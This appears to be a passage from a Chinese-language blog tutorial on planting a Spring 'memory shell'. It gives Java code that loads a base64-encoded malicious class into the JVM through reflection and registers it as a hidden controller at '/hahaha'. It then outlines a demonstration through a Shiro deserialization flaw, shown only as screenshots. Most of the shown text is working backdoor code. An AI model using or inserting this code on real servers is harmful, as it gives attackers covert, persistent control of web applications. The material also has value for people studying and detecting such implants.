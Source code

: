 **恶意class加载进JVM**

```
`BufferedReader r = new BufferedReader(new FileReader("shell.txt"));``String code = r.readLine();``byte[] d = new sun.misc.BASE64Decoder().decodeBuffer(code);``java.lang.reflect.Method m = ClassLoader.class.getDeclaredMethod("defineClass", new Class[]{String.class, byte[].class, int.class, int.class});``m.setAccessible(true);``m.invoke(Thread.currentThread().getContextClassLoader(), new Object[]{"org.inlighting.util.shell",d, 0, d.length});`
```

**获取上下文环境**

只有在同一个上下文环境才能有效

```
`ServletContext sss = ((ServletRequestAttributes)RequestContextHolder.getRequestAttributes()).getRequest().getSession().getServletContext();``WebApplicationContext context  = WebApplicationContextUtils.getWebApplicationContext(sss);`
```

**创建RequestMappingInfo对象**

定义controller的url和访问方法，生成RequestMappingInfo对象

```
`PatternsRequestCondition url = new PatternsRequestCondition("/hahaha");``RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();``RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);`
```

**RequestMappingHandlerMapping注册controller**

使用registerMapping()方法注册

```
`RequestMappingHandlerMapping rs = context.getBean(RequestMappingHandlerMapping.class);``Method m = (Class.forName("org.inlighting.util.shell").getDeclaredMethods())[0];``rs.registerMapping(info, Class.forName("org.inlighting.util.shell").newInstance(), m);`
```

_**_**No.5  
**_**_

_**实际例子**_

以下使用shiro反序列化漏洞演示：  

准备恶意类

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWFkQolxT46FDfic5DOInQDrPAjoEOktXRFeHVMGBcsKibBribEzUeGPddx4cXZJjxyvaKvH3iaoaB5EA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

先将恶意类写到目标服务器上

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWFkQolxT46FDfic5DOInQDrg9cQk6518pJY0yDvZD2NxWNOpe7t2Y7OXXd3NLy5VswRuoUT0o0j8Q/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

将恶意类注册进jvm

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWFkQolxT46FDfic5DOInQDryzWEhwLf60277hdoyYcmORHhmONqicLic1Oq2WL2LFPz41R989vde5yg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWFkQolxT46FDfic5DOInQDrZ3xqLZcS7nuuibek0pwwzoiaWg3D5GGj0v7mOf5T5LjgPlnegAE9rxYw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)
